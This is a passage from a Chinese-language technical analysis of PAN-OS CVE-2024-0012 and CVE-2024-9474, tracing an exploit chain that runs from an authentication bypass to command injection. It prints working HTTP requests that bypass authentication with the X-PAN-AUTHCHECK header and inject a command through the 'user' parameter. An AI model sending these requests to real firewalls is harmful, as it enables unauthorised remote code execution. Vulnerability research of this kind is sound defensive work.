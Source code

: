 当以上所有条件都满足时，系统会执行身份验证。如果任何一个条件不满足，则跳过身份验证检查。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2F3SX2ib8nCgGUy8TPZicrcfRIOYyYtzzL4EFezfoPBsLNMhpezzsGjMBic6icTXUa9wRLl1cYERiawwqg0pVwhqNfg/640?wx_fmt=png&from=appmsg "")  
## 因此，只要在 HTTP 请求头中添加 X-PAN-AUTHCHECK: off，攻击者就能绕过身份验证检查，非法访问 PHP 资源。  
##   
```
GET /php/ztp_gate.php/.js.map  HTTP/1.1
Host: 192.168.32.251
X-PAN-AUTHCHECK: off
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2F3SX2ib8nCgGUy8TPZicrcfRIOYyYtzzLROAbXx60jy8qCib7lia4BYErBWsQsrJkKnBxkFG5sCBOYwNxIiajkRjmQ/640?wx_fmt=png&from=appmsg "")  
## 通过绕过身份验证检查后，攻击者就能访问到关键的PHP文件。在这些文件中，watchtowr团队发现了一个在GlobalProtect客户端中的特权提升漏洞，这个漏洞存在于panCreateRemoteAppwebSession函数中。这个漏洞允许攻击者在目标系统上执行任意命令，从而完成从身份验证绕过到远程代码执行的完整攻击链。  
##   
### CVE-2024-9474：权限提升  
###   
  
根据watchtowr提供的payload，**CVE-2024-9474**  
的漏洞利用流程非常直接：攻击者通过向createRemoteAppwebSession.php发送POST请求，在user参数中注入payload，在获取sessionid后即可触发payload执行。  
```
POST /php/utils/createRemoteAppwebSession.php/aaaa.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
user=`payload`&userRole=superuser&remoteHost=&vsys=vsys1
```  
## 在 watchtowr 的分析中，当涉及到 panCreateRemoteAppwebSession 函数时，分析便戛然而止，并未进一步说明 CVE-2024-9474 的具体触发点。在 Attackerkb 对该漏洞的描述中提到了以下内容：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2F3SX2ib8nCgGUy8TPZicrcfRIOYyYtzzLriaKyjGDljUnzSMicBZTsm3Z9TOVCCWtRejHgubRfsIq447ZEHQzE2pQ/640?wx_fmt=png&from=appmsg "")  
## 根据 Attackerkb 的分析，当 AuditLog.write 函数被调用时，被篡改的用户名值会传递给 pexecute 调用，这就导致了命令注入。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2F3SX2ib8nCgGUy8TPZicrcfRIOYyYtzzLANiab1Y7WFDwCEAOwLiasvibCBcS32QvFMjibJefoBRz9TShNSLYcR9EKA/640?wx_fmt=png&from=appmsg "")  
## 然而，通过使用pspy进行进程分析时发现，实际执行的命令并不是来自AuditLog.write，而是在configd的子进程（ppid）中执行了payload。这清楚地表明CVE-2024-9474的触发点并不在此处，而是存在于configd相关的进程中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2F3SX2ib8nCgGUy8TPZicrcfRIOYyYtzzLOTYLzqIcgXtY0pH6OvRZLGBicAxpsVVykicnljuoH8F7Y8nOKC1y0Vicg/640?wx_fmt=png&from=appmsg "")  
## 通过执行命令 find /usr/local/ -type f ! -path "/cgroup/" ! -path "/sys/" ! -path "/tmp/" ! -path "/cache/" ! -path "/logs/" -exec grep -l "export panusername=" {} \; 查找包含命令执行特征的文件，发现该特征存在于 /usr/local/lib64/libpanmp_mp.so.1.0 中的 pan_op_ctxt_get_env 函数。  
```
[root@PA-VM /]# find /usr/local/ -type f ! -path "*/cgroup/*" ! -path "*/sys/*" ! -path "*/tmp/*" ! -path "*/cache/*" ! -path "*/logs/*" -exec grep -l "export panusername=" {} \;
/usr/local/lib64/libpanmp_mp.so.1.0
[root@PA-VM /]# 
```  
  